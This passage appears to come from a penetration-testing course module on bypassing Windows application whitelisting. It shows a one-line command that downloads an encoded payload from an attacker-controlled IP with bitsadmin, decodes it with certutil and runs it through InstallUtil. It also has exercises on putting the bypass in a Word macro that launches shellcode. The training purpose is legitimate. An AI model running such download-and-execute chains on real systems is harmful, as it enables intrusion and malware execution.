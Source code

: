 Since all of these commands are executed sequentially we can combine them on the command line through the && syntax:\[^&&]

```
C:\Users\student>bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe  
```

> Listing 26 - Complete combined command to download, decode and execute the bypass

Our bypasses were again successful. Very Nice.

In this section, we further developed our tradecraft to allow arbitrary C# execution and unrestricted PowerShell execution despite application whitelisting. We are now able to reuse our existing client-side code execution techniques from Microsoft Office.

**Exercises**

1. Implement the constrained language mode bypass using InstallUtil as demonstrated in this section.
2. Create or modify a Microsoft Word macro to use the whitelisting bypass and launch a PowerShell shellcode runner.

1

(Microsoft, 2017), [https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool](https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fnref-local_id_359-1)

2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/dotnet/api/system.configuration.install.installer?view=netframework-4.8](https://docs.microsoft.com/en-us/dotnet/api/system.configuration.install.installer?view=netframework-4.8) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fnref-local_id_359-2)

3

(Microsoft, 2017), [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fnref-local_id_359-3)

4

(Microsoft, 2017), [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fnref-local_id_359-4)

#### 11.3.4. Reflective Injection Returns

In an earlier module, we used the _Invoke-ReflectivePEInjection_ PowerShell script to inject an unmanaged Meterpreter DLL into a process with reflective DLL injection. However, in a previous section, we enabled AppLocker DLL rules to block untrusted DLLs. Let's try to leverage InstallUtil to bypass AppLocker and revive the powerful reflective DLL injection technique.
